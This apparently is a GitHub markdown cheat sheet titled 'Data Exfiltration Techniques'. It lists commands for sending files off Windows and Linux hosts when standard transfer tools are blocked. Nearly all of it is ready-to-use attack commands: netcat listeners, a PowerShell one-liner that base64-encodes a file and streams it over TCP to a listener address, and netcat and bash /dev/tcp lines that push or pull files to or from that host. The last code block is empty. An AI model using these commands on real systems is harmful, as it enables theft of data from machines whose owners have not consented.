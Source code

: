 # Data Exfiltration Techniques
#### This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.

***

### Windows To Linux

###### Setup NetCat listener on Linux host:

```
nc -nlvp %ListeningPort% | base64 -d > file.ext
```

###### On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()
```

###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

***

### Linux To Linux

#### Send file from remote client to host machine:

###### Setup NetCat listener on Linux host:

```
nc -nlvp port > file.ext
```

###### On the Linux client connect back with NetCat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < file.ext
```

###### If NetCat is unavailable, on the Linux client connect back with bash:

```
cat file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

#### Retrieve file from host to client:

###### Setup NetCat listener on Linux host:

```
nc -q 0 -nlvp %ListenerPort% < file.ext
```

###### On the Linux client connect back with NetCat:

```
nc %ListenerAddress% %ListeningPort% > file.ext
```

###### If NetCat is unavailable, on the Linux client connect back with bash:

```

```
